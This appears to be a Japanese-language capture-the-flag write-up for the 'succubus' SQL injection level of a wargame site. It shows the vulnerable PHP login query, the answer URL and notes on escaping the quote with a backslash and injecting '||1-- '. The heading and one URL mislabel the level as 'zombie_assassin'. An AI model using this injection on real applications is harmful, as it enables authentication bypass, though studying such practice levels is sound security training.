 # zombie_assassin

## answer

```
https://los.eagle-jump.org/succubus_8ab2d195be2e0b10a3b5aa2873d0863f.php?id=1\&pw=||1--%20;
```

## problem

```
query : select id from prob_succubus where id='' and pw=''

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[id])) exit("HeHe"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("succubus"); 
  highlight_file(__FILE__); 
?>
```

## memo

```https://los.eagle-jump.org/zombie_assassin_14dfa83153eb348c4aea012d453e9c8a.php?id=1&pw=2``とかで試してみる。

```query : select id from prob_succubus where id='1' and pw='2'```となった。

コードを読んでいく。

```
if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
if(preg_match('/\'/i', $_GET[id])) exit("HeHe"); 
if(preg_match('/\'/i', $_GET[pw])) exit("HeHe");
```


全てのパラメータで```'```が禁じられているので、フィルターは結構厳しい気がする。
```'```を```\'```とエスケープシーケンスする方法を考えた。

```
?id=\&pw=||1-- ;
```

これにより、idパラメータを```1\' and pw=```とみなすことができるはずであり、
このあとに挿入する```||1-- ;```はフィルターを返さずsql文として実行できそうだ。

--のあとに空白（%20）が必要なので気をつけること。



## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [ereg | php manual](https://www.php.net/manual/ja/function.ereg.php)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)
